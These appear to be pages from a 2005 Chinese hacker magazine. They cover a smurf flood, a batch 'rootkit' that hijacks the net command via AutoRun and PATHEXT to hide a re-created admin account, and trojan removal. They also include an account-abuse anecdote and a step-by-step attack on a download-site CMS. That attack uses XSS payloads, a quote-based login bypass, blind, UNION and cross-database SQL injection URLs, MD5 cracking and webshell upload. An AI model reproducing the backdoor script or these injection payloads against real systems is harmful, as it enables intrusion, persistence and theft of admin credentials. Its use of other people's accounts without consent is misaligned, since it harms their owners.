TCP/IP 中有一个概念叫广播（就像电台广播一样）。如果我们往广播地址发送一个 ICMP ECHO 报文（就是 Ping 一下广播地址），结果会得到非常多的回应：以太网内每一个允许接收广播报文的主机都会回应一个 ICMP ECHO REPLY。如果你想试验，可以在 Unix 机器上 Ping 一下你局域网的广播地址，会看到很多回应的 UDP 包，就是重复回应。因为微软的 Ping 程序不对多个回应进行解包，收到第一个包以后就丢弃后面的了；同样，微软系统默认也不响应广播地址的包，所以你最好在一个有大批 Unix 主机的局域网内测试。说到这里，聪明的你肯定知道我想干什么了吧？没错，当我们伪装成被攻击主机向一个广播地址发送 Ping 请求的时候，所有这个广播地址内的主机都会回应这个 Ping 请求（当然是回应给被攻击主机啦，人人都以为是它 Ping 的呢），这样目标主机就会被打得不堪入目了。

十一黄金周里，大家都是各式各样的玩法，还有很多人打定主意到我们学校（成都理工大学）的地质博物馆，目睹亚洲第一大恐龙——合川马门溪龙的真容，不知各位可有意否？（路人甲：还有恐龙？平时在网上逛到的“恐龙”就够受的了！）要我悄悄推荐免贵门票的朋友们可要手持一本《黑客手册》作为“信物”哟，不过不认识“Q版黑客”的一律不接待哦！

# 利用批处理打造 cmd 下的 Rootkit

创心 [B.C.T]

## 一、前言

学了很久的批处理了，尽管学得不是很好，但已经可以用批处理做很多事情。上次试着用批处理做了个后门，效果还不错，就想用批处理做成自己的 Rootkit。因为批处理本身并不接触系统底层，所以做成完全的 Rootkit 是不现实的，但是在某些情况下还是可以实现欺骗管理员的目的，特别是那些喜欢在 cmd 下进行操作的人，可以用批处理实现对系统很多关键地方进行隐藏。并且上几期的杂志上有很多文章都是为了隐藏系统信息，可直接将系统保护文件进行删除或者替换，这是不明智的。因为我们知道系统本身的文件保护并不是很轻松就可以突破的。不过也没有关系，条条道路通罗马，现在就看看如何用批处理实现我们的 Rootkit 吧！

> **小提示**
>
> Rootkit 起源于 UNIX（有意的双关语），但是 Rootkit 在 Windows 下正变得越来越流行，如 FU 和 AFX Windows rootkit 2003 版。该程序和操作系统紧密结合，以允许电脑黑客修改系统环境变量，在通常使用的系统程序中隐藏恶意攻击代码，隐藏系统进程或其他更多程序。

## 二、分析

首先来看看我们要实现的目标。因为是 cmd 下的 Rootkit，就是要管理员在 cmd 下操作时看不到我们事先定义好的一些东西，譬如一个超级用户账号，譬如用 pslist 查看进程时看不到我们指定的程序名字，查看端口时看不到我们指定的端口，或者用 net 命令查看服务的时候看不到我们指定的服务，甚至看不到我们指定的文件等等。

先看个简单的命令吧！打开你的 cmd.exe 运行 set，在我的机器上执行（如图1）。有很多参数哦！这些都是你当前的系统变量，譬如其中的 Path 环境变量就表示当你运行一个程序时系统会在哪些目录下查找你的文件，而 PATHEXT 环境变量则表示运行程序时后缀的先后次序。呵呵，想到什么了？如果我们可以控制这些变量的话，那么管理员运行什么程序不就是由我们来控制了？譬如管理员运行 net user 这个命令时，系统就会在当前目录按照 PATHEXT 变量里面的后缀顺序来查找名字为 net 的程序运行；如果当前目录不存在这个文件，就会按照 Path 变量继续寻找程序，直到找到符合的程序并运行。如果我们先设置 PATHEXT 的顺序为 bat 在 exe 前面，然后在系统目录建立一个 net.bat，内容由我们自己设定，这样管理员运行的就是我们的 net.bat 了，除非他的当前目录不存在系统目录并且当前目录下有一个 net.exe 文件。大家都知道一般不存在这种情况，这为我们的 Rootkit 提供了可能。具体命令可以分成以下几步：

```bat
set Path=c:\winnt\system32\;c:\WINNT\system32;......
set PATHEXT=.COM;.BAT;.EXE;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;...
```

```text
WSH .VBS  // 将寻找后缀的顺序改变，注意让我们的 bat 文件在 exe 文件之前 //
```

再执行 set 命令看看是不是环境变量都变了啊？然后在 c:\winnt\system32\jnc 下放置 bat 文件，如 net.bat、netstat.bat 等等。为了防止管理员在系统目录下执行命令，我们还要在系统目录下放 bat 文件，这样别人在 cmd 下执行命令的时候就会在我们定义的范围内寻找执行文件了，我们 Rootkit 的目的也就达到了。

但是问题也出来了：如何让别人运行 cmd 的时候自动改变他的环境变量呢？在桌面“我的电脑”→“属性”的“高级选项”里可以编辑。但是如何利用批处理来自动编辑环境变量呢？我们再在命令行下运行 cmd /? 看看帮助（如图2）。

就是说如果 `HKCU\Software\Microsoft\Command Processor\AutoRun` 这个键值存在，就会先去执行这个地方的程序，然后再启动 cmd.exe 接受用户输入，除非用 cmd /D 启动 cmd.exe（很少有人会用这个参数来启动 cmd 吧！）。注册表内容如下：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor]   // 注册表位置 //
"AutoRun"="c:\\winnt\\system32\\jnc\\cmdcmd.bat"
// autorun 的意思也就是你要运行的 cmdcmd.bat 的路径 //
```

大家可以在 shell 里用 regedit /s 导入，我们 Rootkit 启动的问题也解决了！

## 三、制作

原理方面的东西给大家说明了，现在看看如何制作我们的 Rootkit 吧！首先是解决启动问题，写个批处理内容如下：

```bat
@echo off                  // 设置为无回显 //
@set Path=c:\winnt\system32\jnc;C:\WINNT\system32;%Path%
 // 设置 Path 的内容，具体的大家自己设置，并且将回显消除 //
@set PATHEXT=.COM;.BAT;.EXE;.CMD;.VBS;.VBE;...
 // 设置 PATHEXT 的内容，具体的大家自己设置，并且将回显消除 //
```

保存为 cmd.bat 放到一个目录下，这里是 c:\winnt\system32\jnc（你可以根据自己的需要定义），然后到注册表里编辑 `HKEY_LOCAL_MACHINE\Software\Microsoft\Command Processor\AutoRun` 键值为 `c:\winnt\system32\jnc\cmd.bat`（就是你保存的 bat 文件地址），如图3。这样当启动新的 cmd 时就会执行我们指定的 bat，看看是不是环境变量被重设了……。

Rootkit 启动完成了，现在看看如何实现 Rootkit 的功能吧。这个就可以发挥大家自己的想象力了，毕竟 bat 是很强大的。现在我就给大家说说如何实现超级用户的完全隐藏吧（高手不要打我！）在系统目录和 c:\winnt\system32\jnc 目录下建立文件 net.bat。内容如下：

```bat
@echo off
@c:\winnt\system32\net.exe user jnc /del>nul
@c:\winnt\system32\net.exe %1 %2 %3 %4
@c:\winnt\system32\net.exe user jnc inclovesw /add>nul
@c:\winnt\system32\net.exe localgroup administrators jnc /add>nul
```

一个功能简单的就实现了。如果你需要隐藏端口可以自己写，给大家一个思路就是：将当前 netstat 的内容重定向到一个文本文档，然后删除我们指定的内容。还有，以前有人提到制作假的 query.exe，需要删除系统文件，容易被发现；如果使用这个方法并且建立一个 query.bat，管理员看到的内容不就是你控制的了？总的思路就是在管理员之前看清该命令对自己有没有不利，有的话就屏蔽掉。

我们看看正常的 net.exe 运行 net user，与直接在命令行下执行 net user 的不同吧！正常情况下（如图4），Rootkit 后（如图5）。

## 四、总结

尽管这些 Rootkit 在图形界面下不能像真正的 rootkit 那样隐藏什么，那些批处理也很容易被曝光，但是在命令行中用得好的话威力还是很大的。比如你知道管理员总是 telnet 登录，或者你的对手喜欢用 cmd 操作（我就是如此），还可以应用在一些想不到的场合，比如刚才提到的 query 命令隐藏……总之，给大家一个思路，如何发挥就看大家自己的了。文章比较浅薄，有什么问题或者你有更好的方法欢迎到论坛讨论，我的 ID 是剑心。

> 【文章所涉及 cmd.bat、net.bat、cmd_auto.reg 在光盘中均有收录】

编后语：“rootkit”这单词想必很多读者都感到陌生。“Root”在英语中是根、扎根的意思，“kit”是包的意思。Rootkit 我们可以把它理解成一个利用很多技术来替代体系中的后门，并且包含了一个功能比较多的程序包。Rootkit 最大的特点就是“隐藏”，而本文利用了“先删除后再建”的技巧也实现了“隐藏”功能！

# 追杀变种冰河

> 追杀变种冰河

无情剑客

说到冰河，大家一定都很熟悉了。想当年它曾经是黑客朋友首选的远程控制软件，只因为它有着强大的功能，直到现在有很多人还在应用第二代木马冰河，而冰河也早就被列入了众多杀毒软件的“黑名单”了。为了躲避杀毒软件的追杀，在网上陆续出现了变种冰河。今天就和大家探讨一下怎样查杀冰河，下面就以查杀冰河2005圣诞版的变种木马为例。因本人是只菜鸟，必定有很多错误之处，望大虾们多多指点！

那天我觉得无聊，手头上有一只冰河2005圣诞版的变种木马。反正在家里也很无聊，所以决定要看看这变种冰河的厉害。我先解压冰河，但是杀毒软件没反应（可能我的病毒库旧啦，毕竟人家是变种嘛！哪有这么容易被杀呀！）。于是就在我的爱机运行了服务端，运行之后占用内存便很大。电脑慢得要命（因为我中了虚拟系统）。先借助反间谍专家的进程管理器来看看进程，如图1所示。


那个红色的图标，是不是很奇怪呢？这么显眼也做得出来，这个变种冰河的作者也没什么水平，晕～～！可能大家没有注意到我们经常使用的优化大师有查杀病毒功能。打开优化大师的病毒查杀功能，查杀结果如图2所示，提示有Glacier类木马。

发掘到优化大师查杀可疑文件的能力还真有两下子吧？继续展开优化大师的“开机速度优化”，因为在这里面可以把一些随系统一起启动的文件去掉。这里我们又可以看见那个红色的图标了（如图3），先把它们禁止启动（注意禁止启动之前可别忘记把它的进程结束了）。


跟着再打开反间谍专家看看变种冰河的进程关闭了没有（如图4）。冰河的进程已经被结束了，我们接下来的工作就是要清除它。


先到 c:\windows\systems 找到那个红色的图标（即冰河的主程序，如图5），立刻将它删除。


冰河这木马也很可恶的，它把我们的系统的文件关联也修改了，只要我们运行 TXT 文件就会使冰河激活，所以我们必须将我们的关联修复。反间谍专家对于这方面做得也很好，它对于恶意代码和文件关联的查杀能力很大。在这里就利用它来查杀这些恶意代码。查杀结果如图6所示，只要选择修复就可以了。

重启后，再来看看进程，红色的图标没有了，启动项目也不显示了。再运行 TXT 文件时就没有冰河的踪影了。哈哈~~变种冰河就这么简单就被摆平了，不用杀毒软件照样也可以查杀病毒，希望大家多动动脑筋，遇到病毒千万不要紧张，只要自己肯动手动脑，一定可以解决的。

> 【冰河2005圣诞版本光盘中有收录】

编辑此讲解的冰河的开发者黄鑫早已经停止了对冰河（2.2）后续版本的开发，所以大家在网上看到的变种大多是爱好者修改特征码而来的。其删除的原理和冰河一样，网上有很多，本文主要是让大家看我是如何用各种常见的工具杀毒的。


在黑客学习的过程中，技术交流是必不可少的，尤其是需要阅读一些安全前沿的文章，像一些经典的外文网站 PHRACK 杂志、经典的编程网站 www.codeproject.com 等等。但对于初学者来说，语言上的障碍便成了拦路虎。现在小菜们不用发愁了，“夜航船”栏目将为渴望学习网络安全 E 文的朋友们制定完善学习方案。今天我们就来学习一下阿菜@【T.T.T】为我们带来的《MS05-052安全公告节选》。希望大家了解微软安全公告的基本格式，积累常用的专业词汇，在以后的学习、交流中事半功倍。

# MS05-052 安全公告节选

| 英文原文 | 中文译文 |
|---|---|
| Microsoft Security Bulletin MS05-052<br>Cumulative Security Update for Internet Explorer (896688)<br>Published: October 11, 2005 \| Updated: October 19, 2005<br>Version: 1.2 | 微软安全公告 MS05-052<br>Internet Explorer 的累积性安全更新（896688）<br>发布日期：十月11，2005 \| 更新：十月19，2005<br>版本：1.2 |
| Summary<br>Who should read this document: Customers who use Microsoft Windows<br>Impact of Vulnerability: Remote Code Execution<br>Maximum Severity Rating: Critical<br>Recommendation: Customers should apply the update immediately. | 摘要<br>本文的目标读者：使用 Microsoft Windows 的客户<br>漏洞的影响：远程代码执行<br>最大严重等级：严重<br>推荐建议：客户应立即应用此更新。 |
| Security Update Replacement: This update replaces the update that is included with Microsoft Security Bulletin MS05-038. That update is also a cumulative update. | 安全更新替代：此更新替代包含在微软安全公告 MS05-038 中的更新。该更新也是一个累积性更新。 |
| Caveats: Microsoft Knowledge Base Article 896688 documents the currently known issues that customers may experience when they install this security update. The article also documents recommended solutions for these issues. For more information, see Microsoft Knowledge Base Article 896688. | 注意事项：微软知识库文章 896688 介绍了客户在安装这个安全更新时可能遇到的当前已知问题。本文还介绍了这些问题的建议解决办法。有关详细信息，参阅微软知识库文章 896688。 |
| This update does include hotfixes that have been released since the release of MS04-004 or MS04-025, but they will only be installed on systems that need them. Customers who have received hotfixes from Microsoft or from their support providers since the release of MS04-004 or MS04-025 should review the “I have received a hotfix from Microsoft or my support provider since the release of MS04-004. Is that hotfix included in this security update?” question in the FAQ section of this bulletin to determine how you can make sure that the necessary hotfixes are installed. Microsoft Knowledge Base Article 896688 also documents this in more detail. | 此更新包括自 MS04-004 或 MS04-025 发布后发布的修补程序，但是它们将只被安装在需要它们的系统上。已经从微软或者其产品支持商获得 MS04-004 和 MS04-025 发布之后补丁的用户需要参阅“我已经从微软或其供应商获得了自 MS04-004 和 MS04-025 之后发布的补丁。那个补丁是否包括这个安全更新？”的问题，这个问题在公告的 FAQ 部分用于说明如何确定是否安装所需要的更新。Microsoft 知识库文章 896688 中还更详细地说明了这个问题。 |

- cumulative（累积的、累计的）
- customer（客户）
- vulnerability（易受攻击性）
- critical（紧要关头的）
- replace（替换）
- known（已知的）
- recommended（推荐、建议）
- include（包含）
- release（发表、发布）
- receive（接受、获得）
- provider（供给者、供应商）
- determine（决定）
- detail（细节、详细）
- document（文档）
- impact（冲击）
- execution（实行、执行）
- immediately（立刻、立即）
- currently（现在、当前）
- issue（争议、问题）
- solution（解决、解决办法）
- hotfix（修补程序、补丁）
- install（安装）
- support（支持）
- section（区段、部分）
- necessary（需要、必需）

# 话费就是这样被扣的

八代贫农

一天晚上突然收到了一条这样的短信：“您好，你已经成功把彩铃：童话赠送给138***********”，内容记不太清，大体上就是这个意思吧！我很纳闷，我没见过这个号码，为什么要给它赠彩铃呢！是不是骗我的（我的卡是动感地带的，昨天才开通了彩铃业务，是免费开通的，说是里面可以给我们提供几个免费的彩铃）。于是查了一下话费，116.82元！天啊！这是怎么回事啊！我好像没拨打过什么收费电话，一定是这个彩铃业务惹的祸！于是登录这个网站：“http://he.12530.com/user/logout.do”，在用户名中输入我的手机号：137********，密码输入：123456，点击“登录”（这是这个网站的默认密码，只要你不更改密码就很容易被人利用，要不我今天就不写这篇文章了），如图1所示。


进去后，你可以订购也可以赠送（见图2中最后那个小图标），这里就不多说过程了，相信看这里的朋友 IQ 都比我高！

呵呵，那个花我话费的人不是还给他朋友赠送了几个啊！那他朋友就肯定开通了。用默认密码登录后，居然成功了，看来该我出口气了，用他朋友的号给自己发了3个彩铃，算是给他一点教训吧！好了，我写这篇文章的目的并不是教大家如何盗用别人的手机话费。只是想给大家提个醒，连动感地带这样的服务都会出现这种漏洞，所以大家在使用手机业务的时候一定要小心，如果没有必要就不要开通这些业务，如果真的有需要可以去一些比较好的彩信论坛发帖。


## 入侵成功后 如何在 DOS 下抓图

小小

在人侵成功后我们经常会抓图，“留念”，记下精彩的瞬间。要做到这一点，在图形界面下当然很简单，不但有 Snagit、HyperSnap 等强大抓图工具的帮助，就是通过键盘上的拷屏键“Print Screen”也能够完成大部分的抓图任务。但是，上述方法在黑黑的 DOS 窗口下却都没了用武之地。要抓取 DOS 画面，通常情况下只能在虚拟机软件的帮助下完成。不过，虚拟机软件对于大多数用户来说还很陌生。为了抓几张图去装虚拟机软件也有点小题大做了。那么该怎样方便快捷地抓取 DOS 画面呢？利用一款名为“PIXELPOP”的小工具，抓取 DOS 画面就犹如探囊取物（软件下载地址：http://download.pchome.net/multimedia/capture/19769.html）。

- 第一步：在 C 盘根目录新建一个名为“prnScr”的文件夹，将下载回来的 PP 压缩包中的“PP.AAP.EXE”和“PPGIFV.EXE”文件释放到该目录中。
- 第二步：打开记事本，录入以下内容：

```
Echo off
PP.AAP %1 %2 %3 %4 %5 %6 ...
IF Errorlevel -1 goto END
GIF
PPGIFV
:END
```

录入完毕，经检查无误后，保存到“prnScr”的文件夹中，然后重命名为“PP.bat”。

- 第三步：当需要在 DOS 抓图时，首先用“CD”命令进入到“prnScr”文件夹，然后键入“PP.bat”，回车后运行此批处理文件。这时程序会告诉你抓图热键是“Shift”+“Print Screen”键（如图1）。接下来，按通常方法进行 DOS 操作，直到出现欲抓取的 DOS 画面，按下“Shift”+“Print Screen”键，就可以抓取当前 DOS 画面，并以“SCREEN**.GIF”为名，保存在“prnScr”的文件夹中，其中“**”是顺序号。


不信？让我们 DIR 一下，刚才所抓取的画面全在这里（如图2）。

- 第四步：DOS 抓图任务结束后，进入 Windows，用图像处理软件 Photoshop 对抓取的 DOS 画面进行进一步的处理即可。

最近一个人住，自己做饭，日久之后，有时随意炒的菜竟然也特别好吃，套用这么一句话，“文章本天成，妙手偶得之”。黑客入侵也一样，有时需要处心积虑，有时只需灵机一动。处心积虑上的灵光一现，其实也就是量的累积发展到质的突变了。本栏目的几篇文章，拿来也符合这一规律。“万象下载程序的纰漏”这篇文章初学 Web Injection 者可以当作一个 ASP 注入的例程，进行量的积累；对 163、Sohu 两大门户网站检测的两篇文章，我想会给痴迷于 Hack 的朋友极大的信心，只要更多地学习模仿，自己以后肯定也能做到；从入侵华夏黑客联盟到盗极品 QQ 号，充分利用 Web 日志分析 SQL 脚本注入漏洞攻击等其它文章，都有独到之处，至于内容好坏则是智者见智，仁者见仁，请勿阅后即忘……

# 万象下载程序的纰漏

寂寞的刺猬

## 一、跨站漏洞

该漏洞存在于“软件评论”版块，对应的 ASP 文件是：“Softessay.asp”，漏洞形成原因是在保存评论时对输入的字符过滤不严，其源代码如下：

```asp
if request("action")="savessay" then
...
rs.addnew
rs("SortID")=request("id")
rs("username")=trim(request.form("UserName"))
rs("usermail")=trim(request.form("Email"))
rs("Grade")=trim(request.form("Grade"))
rs("content")=UBBCode(request.form("content"))
...
rs.update
rs.close
```

从源代码中可以看出，该文件只对“评论内容(content)”用 UBBCode 进行了过滤，而进行评论的“用户名”及“email”这两个表单值都未过滤。不过，还要看一下在保存评论内容之前，源码还是有对这两项采取了一些措施。结果发现程序对“用户名”只是判断是否为空，而对“Email”则是判断输入的字符串中是否包含“@”和“.”，如此一来，跨站漏洞便产生了。

下面我们在用户名提交的表单处写入跨站代码“<script>alert('hello')</script>”，在写入用户名时发现对其输入长度做了限制，那就采用本地提交的方式，把“软件评论”的源代码另存为 HTML 页到本地，搜索“form name="myform"”，然后修改其后的“action”值为“http://127.0.0.1/vh/softessay.asp?id=179”（其中的179是被评论软件的 ID 号，该 ID 在 IE 地址栏中显示）。再修改“用户名(UserName)”中的“Maxlength”长度为“50”或更大值。运行修改后的 HTML，在用户名、Email 和评论内容中分别输入跨站测试代码：“<script>alert('hello')</script>”，如图1所示。


图1

来看一下成果。在主窗口内点击该软件链接，在软件下载窗口未打开之前，先弹出了跨站测试窗口，如图2所示。因为在当前打开页面中的评论只显示用户名及评论内容，所以只弹出一个测试窗口；如果点击下载页面中的“查看更多评论”链接，就会弹出两个测试窗口，因为这次打开的评论中既显示用户名还显示 Email（其实不止用户名及 Email 中可以写入，修改本地提交页的“分值”项为文本提交形式，也可以加入跨站语句）。


图2

## 二、留言簿漏洞

玩过了跨站，再来个更 HIGH 的，只要输入1个字符，就可以进入留言簿的后台，Don't Believe? 那就 Let's Go！在介绍这个字符之前，先跟我看一下这个漏洞产生的原因。留言簿使用的是一个专门的数据库“mofei_book.mdb”，管理员对留言簿后台的管理是通过“mofei_book_save.asp”这个文件来进行的，其中管理员登录的语句是：

```asp
elseif action="booklogin" then
  admin_name=trim(request.form("admin-name"))
  admin_pass=trim(request.form("admin-pass"))
  admin_pass=mofeiaspmima(admin_pass)
  ad_admin_01="select * from admin_admin where admin_use='"&admin_name&"'"
  set ma_sql01=mofei.conn.execute(ad_admin_01)
  if not ma_sql01.eof then
    mbb_01=ma_sql01("admin_pass")
    if mbb_01=admin_pass then
      session("mofei")=Request.servervariables("REMOTE_ADDR")
    else
      response.write("<SCRIPT language=JavaScript>alert('密码错误')")
    end if
  else
    response.write("<SCRIPT language=JavaScript>alert('找不到此用户')")
  end if
  ma_sql01.close
  set ma_sql01=nothing
  response.redirect "index.asp"
```

其中的 mofeiaspmima 是“mofei”的原创加密代码，通过测试，这是一段不可逆的加密代码，但这种加密方法并不是多严格，原因稍后再说。先来说管理员登录中的漏洞。在上面代码中有这么一句：“select * from admin_admin where admin_use='"&admin_name&"'”，再向上查看“admin_name”接收方法，并没有过滤就放入了 SQL 中，所以注入漏洞就出现了，用“1=1”和“1=2”方法来测试：在“管理员登录”的“昵称”中输入“or len(admin_use)>6 and '1'='1'”，这是精心构造的一个猜测语句，按照上面代码的流程，如果中间的“len(admin_use)>6”值为真，就弹出“密码错误”窗口，如图3所示。如果值为假，则弹出“找不到此用户”窗口，说明猜测错误。


图3

如果要猜管理员的昵称，则将语句更改为：“or asc(mid(admin_use,1,1))>30 and '1'='1'”，其中的 ASC() 是将字符转换为 ASCII 数值，MID() 是截取函数。30 为字符的 ASCII 值，根据弹出的窗口内容更改30为其他数值，确定字符的 ASCII 范围，最后用“=”判断；如弹出“密码错误”窗口，则证明猜测正确。再把猜测出的 ASCII 值转换为相对应的字符就得出管理员的昵称了。

## 11月

## 离线：无战争黑客手册

样，管理员的密码也按这样的猜测方法进行。

好了，说到这里，该揭晓如何直接进入留言簿后台了。其实我也是无意之间发现的。阿呵！那天，在测试一个网站时，因为中午喝了点酒，在猜测密码长度时，输入的字符是："' or '1'='1 and (admin_pass)>10 and '1'='1"，原字段名为“admin_pass”，我漏输了一个字母，结果出现的页面让我愣了半天，竟然进入了后台，点后退查看输入的字母，才发现少了一个 s，补齐后登录，就不能进入后台了，去掉 s 就能进入后台，晕了！本来酒已把我折腾得晕晕乎乎，又出现这样的情况，更晕了。

次日，用海洋2006中的数据库 SQL 命令仔细研究了一下，当执行上面少一个 s 的语句后，出现以下错误：

> 错误：至少一个参数没有被指定值。  
> 错误源：Microsoft JET Database Engine

而执行完整的语句时，就查询出了数据。结合一下前面所列的流程，得出如下结论：因为语句中有参数没有被指定值，出现了语法错误，从而绕过下面用户名昵称与密码的检查，直接进入了后台。接下来再换其他方式测试，最后测试出只要输入 1 个“'”，就可以进入后台了。答案揭晓：一个单引号就进入留言簿的后台。

说完了登录后台，接下来是在密码的加密。前面提到这个密码加密并不是多安全，为什么呢？我用它的加密函数生成了数字与大小写字符所对应的加密字符，如图4所示，其中第一行中的 Z，代表的是正常的数字和大小写字符，是经过“mofciascpnima”加密后的对应值，A 是该加密值的 ASCII 值。大家可以从中看出，好多加密值对应于两个正常数字或字符。

ASCII 对照与加密映射表（图4）

举个例子说吧，如果你的后台密码设置的是“222”，那么用 mofciascpnima 加密后是“%%%”。再来对照图4中的对应字符，与“%”对应的除了 2 外还有 3。这样，用“333”也能进入后台，还有“223”“232”等 8 个密码都可以进入后台。为此，我特意用 VB 编了一个小程序来计算某个密码有多少数列，如图5所示，在最低栏中输入密码“%%%”的最低值“222”，在最高值栏中输入该加密码对应的最高值“333”，然后点“计算”，就计算出 222-333 之间的数列了。


为了让大家清晰地了解这一流程，下面就用本机做实验，进行一次演习。首先在管理员登录框内输入单引号“'”，进入后台，点“修改密码”查看管理员昵称，如图6所示，得到管理员的昵称为“jmdcv”。接下来点“注销管理”退出后台，再回到“管理登录”中，在昵称中输入前面介绍的猜测代码，猜测出管理员的密码 ASCII 值分别是：71、73、67、67、78、39、37、35、35。按顺序来，算出对应的密码是：“GICCN'%#”。再用前面图4中的对照表，查出密码的最低值是：“jmccv5200”，最高值是：“kndcv6300”，分别填入那个数列计算工具中，点计算，如图7所示。算出有 128 个数列，用这 128 个中的任意一个都可以登录后台。其实我们算出的数列不仅仅这一个用途，还有一个更重要的用途呢！停一会再告诉你，这里要做的工作就是先复制下来保存到一个空白 txt 中。


## 三、SQL注入漏洞

说完了留言簿的漏洞，回过头来看万豪家的 SQL 注入漏洞，这里涉及了几个 ASP 文件，按类型分为暴力破解、UNION 查询和跨库查询三种注入漏洞。

### 1. 暴力破解

先看“infojs.asp”，该文件的提取提交语句 `request.querystring("classid")`，没有过滤就放入 SQL 中。因为在此 ASP 文件中，有多处 SQL 语句使用这一提交值，而这些 SQL 语句所显示的字段数又不一致，因而导致无法使用 UNION 查询，只能用“1=1”暴力破解方法来猜测管理员名称及密码。

```text
http://127.0.0.1/wh/infojs.asp?classid=34 and 5<(select len(adminname) from nc_admin where id=1)
```

classid 值的范围要设定在 33-54 之间，先保证 classid 值的正确性，才能正确判断 and 后的等式成立与否！如果查询条件为真，则显示的页面中有“document.write”字样，否则显示的是空白页面。

猜出管理员名称长度后，再把“len(adminname)”换成“asc(mid(adminname,1,1))”，猜测管理员名称的 ASCII 值，再把猜测出的 ASCII 值转为 CHR 值。管理员密码也是按这种方法猜测。同样的暴力猜解漏洞还出在“softjs.asp”中，利用的方法和前面介绍的一样。

### 2. UNION 查询

如果出现 SQL 注入的文件可以执行 UNION 查询，那就事半功倍了。在前面找到暴力破解的 SQL 注入时，还想着如何写一个猜测机，但“prcviewing.asp”和“ncvsoft.asp”让我放弃了这一念头。先看一下“prcviewing.asp”，这是一个显示软件截图界面的文件，它的 SQL 语句是：

`sql="select SoftName,SoftVer,PreviewImg,softimg from NC_SoftInfo where SoftID='"&request.QueryString("SoftID")"`

其中的 `request.QueryString("SoftID")` 没有过滤就放入了 SQL 中。纵观该提交值在该文件中的出现次数，呵呵！只有这一句使用，所以可以使用 UNION 语句。

```text
http://127.0.0.1/wh/prcviewing.asp?softid=123456 union select 1,2,3,4 from nc_admin where id=1
```

其中 softid 值 123456 是一个不存在的软件 ID 值，这一点和暴力查询前面的部分一样了：暴力查询要保证前面的值为真，才能猜测判断后面的值是否为真；而 UNION 查询，要先让前面的值为假，才能显示 UNION 语句的查询结果。如图8所示，可以看见的是 1 和 2 所对应的字段，还有一个不可见的 3 字段是图片的属性值。把 UNION 语句中的 1 和 2 替换为 nc_admin 表中的管理员名称字段 adminname 和密码字段 password 后执行，就查询出 ID 为 1 的管理员名称和密码了。


在上面的 UNION 语句中，where 后加了“id=1”，意思是查询 ID 为 1 的管理员名称及密码。但如果不知道管理员的 ID 号怎么办？那就用下面这个“newsoft.asp”批量查询。这个“newsoft.asp”是显示新软件的文件，先看一下它存在注入的 SQL 语句：

```text
sql="select top 40 * from NC_softinfo where isLock=0 and softType='"&request("type")&"' order by softTime desc, SoftID desc"
```

打开万豪数据库查了一下 nc_softinfo 表的字段数，有 30 个。按照 UNION 语法规则，构造的查询语句如下：

```text
http://127.0.0.1/wh/newsoft.asp?type=123456 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30 from nc_admin where ''='1'
```

在 IE 地址栏中执行后，如图9所示，显示 4、5、7 字段。将其中的 7 替换为管理员名称字段（adminname），4 替换为管理员密码字段（password），执行后效果如图10所示。


嗯！其中有一个管理员的名称就是“jmdcw”，而密码“fc6064b4cf216d22”则是 MD5 加密值。现在我们就来破解这个 MD5 值。打开 MD5 爆破工具，复制 MD5 值到“破解单个密文”中，在“字符设置”中选择“使用字典”。还记不记得前面算出的留言簿后台管理员密码的数列？在这里就要派上用场了。按照大多管理员的习惯，密码总是相同的，所以我们用前面算出的数列来碰碰运气。点破解，如图11所示，用了 9 秒就破出了管理员后台的密码是：“jmdcw5200”，哈哈，自己给自己祝贺一下！


### 3. 跨库查询

除了前面介绍的两种查询方式外，还有一种查询方法，那就是跨库查询。个人感觉跨库如同跨站一样，都有些挖东打西的意思。下面再来看一下跨库漏洞的使用方法。

### A. 查找注入点

在万豪程序的文件目录中，除了前面的留言簿、下载管理和图片等目录外，还有两个目录，分别是 ADS（广告）和 VOTE（投票）。而这两个目录中的部分 ASP 文件，也存有过滤不严的 BUG，其中未加管理员限制、可以直接运行的有 ADS 目录中的 Ad1.asp、Daina.asp 和 VOTE 目录中的 Showvote.asp、Votedy.asp、Votetou.asp。这些文件能够使用 UNION 语句的，只有 Votedy.asp，而跨库查询还是用 UNION 语句来得快，所以下面就用 Votedy.asp 举例说明。

先看一下 Votedy.asp 中过滤不严的语句：`set rs=conn.execute("select * from class where id="&request("id"))`。按照接收值，在 IE 地址栏中先输入：

`http://127.0.0.1/wh/vote/votedy.asp?id=1`

查看页面的执行情况，再输入：

`http://127.0.0.1/wh/vote/votedy.asp?id=2 union select 1,2,3,4,5,6,7,8 from class`

执行 UNION 查询，如图12所示，同前一个网页对比后，得到显示字段所对应的位置是 2。


### B. 暴库

如果数据库连接文件未加密措施处理，那么就能暴出数据库的物理路径。恰恰这两个目录中的数据库连接文件，均没有加密错误语句。所以，要想猜出下载数据库的物理路径，还得先从它们着手。在刚才打开的 UNION 查询页面中，把地址栏中“votedy.asp”前的“/”改为“%5c”后执行，如图13所示，得到投票数据库的物理路径：“E:\internet\wh\data.mdb”。大家注意，这个路径不完整，少了投票目录，完整的路径应该是：“E:\internet\wh\vote\data.mdb”。

按照万豪目录的设置，下载系统的数据库在 `admin\database` 中，默认使用的是“bsbas.asp”名称。如果名称没有更改，那么下载系统的数据库物理路径就是：“E:\internet\wh\admin\database\bsbas.asp”。


### C. 跨库

```text
http://127.0.0.1/wh/vote/votedy.asp?id=2 union select 1,adminname,3,4,5,6,7,8 from nc_admin in 'E:\internet\wh\admin\database\bsbas.asp' where id=1
```

其中位于第 2 位的 adminname 是管理员名称，nc_admin 是下载数据库中的管理员表，in 表示 nc_admin 数据表来源于其后的数据库中。执行后，如图14所示，查询出管理员名称。再把 adminname 更改为 password，就可以查询到管理员密码了；如果管理员的 ID 不是 1，那就更改 ID 值再进行查询。

## 四、上传及备份漏洞

有了管理员密码，就可以登录下载程序的后台，用其中上传及备份的漏洞，把自己的权限提升为 WEBSHELL。

### 1. 上传

其后台的“软件上传”未对上传文件类型做限制，可以上传 asp 等任意格式的文件。但因为上传的文件保存在网站目录下的 Download 目录内，在默认情况下该目录是不存在的，而一般下载网站都是链接的其他网站中的资源，小型下载站点一般不会上传文件提供下载，所以这个 download 目录的存在与否就要根据建站者的爱好来定了。

